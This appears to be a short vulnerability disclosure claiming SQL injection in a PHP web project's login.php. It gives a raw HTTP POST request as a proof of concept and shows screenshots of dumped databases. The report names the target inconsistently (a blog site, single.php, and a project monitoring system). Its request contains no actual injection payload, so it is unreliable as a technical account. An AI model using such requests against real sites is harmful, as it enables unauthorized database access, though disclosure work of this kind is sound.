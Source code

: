 # Responsive Blog Site has sql injection in single.php

## supplier 
https://code-projects.org/project-monitoring-system-in-php-with-source-code/
## Vulnerability file
login.php

## describe

**Code analysis**   

In the login.php file of Responsive Blog Site, the username and password parameters are obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/ba3cc034-921d-4831-bd02-65b0f6cce5cb.png)


## POC

```
POST /project/pmmp/login.php?action=login HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 33
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/project/pmmp/login.php?action=login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=1&password=1&login=login

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/a77b6eb2-5132-4a30-b40f-8a7a38d074db.png)
Get databases
![image-2025](https://github.com/asd1238525/cve/blob/main/feed9d39-25c4-4ef6-84a8-eb46aafda5bc.png)